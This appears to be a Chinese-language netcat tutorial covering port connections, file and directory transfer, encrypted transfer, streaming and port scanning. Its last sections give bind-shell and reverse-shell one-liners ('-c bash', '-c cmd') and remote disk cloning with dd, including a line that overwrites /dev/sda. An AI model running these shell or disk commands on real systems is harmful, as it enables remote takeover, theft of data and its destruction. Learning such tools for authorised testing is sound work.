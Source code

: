 ## NetCat 工具

### NC 基本选项 v 和 n
```
ip 为 pop3.126.com 的ip pop3端口为110
nc -vn 220.181.15.128 110
```

nc 通过pop3进行登录


### NC 传输文本信息

```
A: nc -l -p 4444 // 监听端口
B: nc -nv 1.1.1.1 4444 // 客户请求端口
```


### NC 远端输入 输出

服务端通过
```
nc -l -p 24555 监听端口
```

客户端执行
```
$ ls -l | ./nc -nv 9.134.148.200 24555 -q 1 // 意思是连接1秒后关闭
```


将命令信息写入指定文件

```
nc -l =p 24555 > command.txt
```

### NC 传输文件/目录

传输文件

接受数据写入文件
```
nc -lp 34455 > test.py
```

客户端传输数据

```
nc -nv 9.134.148.200 34455 < test.py -q 1
```

或者 侦听反向传输数据

服务端监听传输
```
nc -lp 34455 < nmap-ncat-6.40-19.el7.x86_64.rpm
```

客户端连接接收

```
nc -nv 9.134.148.200 34455 > nmap.rpm
```

服务端传输目录数据

需要 - 指定打包的文件名
```
tar -cvf - testnc/ | nc -lp 33333
```

客户端接收指定目录数据 并解包
```
ncat -nv 9.134.148.200 33333 | tar -xvf -
```

加密传输文件

```
nc -lp 33333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > test.py
```

解密接收
```
mcrypt --flush -Fbq -a rijndael-256 -m ecb < test.py |nc -nv  9.134.148.200 33333
```

### NC 做流媒体服务器

读取流媒体到流端口
```
cat ttt.flv | nc -lp 33333
```

客户端解析并执行
```
ncat -nv 9.134.148.200 33333| ./vlc
```

### NC 端口扫描

扫描指定端口
```
nc -nvz 9.134.148.200 8000
```

```
nc -vnzu 9.134.148.200 -1024
```

### NC 远程克隆硬盘

将硬盘进行克隆 电子取证 可以将目标服务器硬盘远程复制, 或者内存
```
nc -l 333 | dd of=/dev/sda
dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1
```

### NC 远程控制

正向 先开启服务端 再开启客户端
```
nc -lp 33333 -c bash
ncat.exe -nv 9.134.148.200 33333
```

反向控制

```
nc -lp 33333
ncat.exe 9.134.148.200 33333 -c cmd
```
